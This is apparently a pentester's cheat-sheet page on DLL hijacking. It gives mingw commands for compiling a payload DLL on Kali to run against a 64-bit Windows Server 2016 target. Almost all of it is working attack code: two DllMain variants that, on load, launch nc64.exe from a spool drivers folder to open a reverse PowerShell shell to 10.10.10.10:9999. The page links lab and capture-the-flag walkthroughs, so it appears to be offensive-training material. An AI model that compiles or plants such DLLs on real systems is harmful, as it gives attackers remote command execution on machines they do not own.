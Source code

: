 ## DLL hijacking, Compiling dll on Kali, target x64 Win Server 2016

------
`x86_64-w64-mingw32-gcc payload.c -shared -o payload.dll`
`x86_64-w64-mingw32-g++ payload.c -lws2_32 -shared -o payload.dll `
`sudo apt-get install mingw-w64`
<pre><code>#include <windows.h>

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved)
{
	switch (fdwReason)
	{
	case DLL_PROCESS_ATTACH:
		WinExec("c:\\windows\\system32\\spool\\drivers\\color\\nc64.exe 10.10.10.10 9999 -e powershell.exe", 0);
		break;

	case DLL_THREAD_ATTACH:
		break;

	case DLL_THREAD_DETACH:
		break;

	case DLL_PROCESS_DETACH:
		break;
	}

	return TRUE;
}
</code></pre>

<pre><code>
#include <windows.h>
BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved)
{
	system("c:\\windows\\system32\\spool\\drivers\\color\\nc64.exe 10.10.10.10 9999 -e powershell.exe");
	ExitProcess(0);
	return TRUE;
}
</code></pre>
ref:
[IPPSEC arkham vid](https://youtu.be/krC5j1Ab44I?t=3937) </br>
[null-byte](https://null-byte.wonderhowto.com/how-to/use-mingw-compile-windows-exploits-kali-linux-0179461/)</br>
[hacking-tutorial](https://www.hackingtutorials.org/exploit-tutorials/mingw-w64-how-to-compile-windows-exploits-on-kali-linux/)</br>